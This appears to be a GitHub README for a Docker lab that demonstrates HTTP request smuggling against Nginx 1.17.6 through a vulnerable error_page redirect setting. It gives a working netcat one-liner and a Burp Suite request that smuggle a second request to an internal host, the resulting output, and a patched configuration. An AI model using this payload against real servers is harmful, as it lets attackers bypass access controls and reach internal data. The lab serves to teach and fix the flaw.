 #	HTTP REQUEST SMUGGLING 
The term HTTP request smuggling (HRS) refers to techniques that interfere with the way in which a website processes sequences of HTTP requests. 

Request smuggling vulnerabilities are considered critical because they allow threat actors to bypass security controls. The actor then gain unauthorized access to sensitive information and directly compromise other users

-> **Here will tro to get unauthorized access to internal server with the nginx vulnerable configaration** 

#	HTTP REQUEST SMUGGLING ON NGINX 

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9095
```

 ###  you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and  open firefox browser 
2. Open the url **127.0.0.1:9095** in the browser 
3. Intercept the request and send it to the repeater 
4. Now replace the intercepted request with the following request
 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /sensitive/index.html HTTP/1.1
Host: attackerhost


```

![burp-request](https://user-images.githubusercontent.com/102154743/159486728-f7605d05-6724-4500-a091-fbe670f90402.png)

5. When you send the request we will get below response


![burp-response](https://user-images.githubusercontent.com/102154743/159486730-227653af-d594-450f-87a3-c6c0cda04c61.png)

6.Repeat the process untill we will get **Two response from server** as below


![burp-desync](https://user-images.githubusercontent.com/102154743/159486724-71df79ac-94ca-4ec8-a011-2e3967092bac.png)

# Patch
```
NGINX supports the ability to have the error_page handler change the resulting error page and error code
into a 302 redirect, as such:
error_page 401 https://example.org/;
Other forms of the error_page handler are NOT vulnerable:
error_page 404 /404.html;
error_page 404 @404;
```
### vulnerable configaration in *default.conf*
```bash
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```

### Patch for above configaration 
```
server {
 listen 80;
 server_name localhost;
 error_page 401 @401;
 location / {
 return 401;
 }
 location @401 {
 return 302 http://example.org;
 }
}

server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```
#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
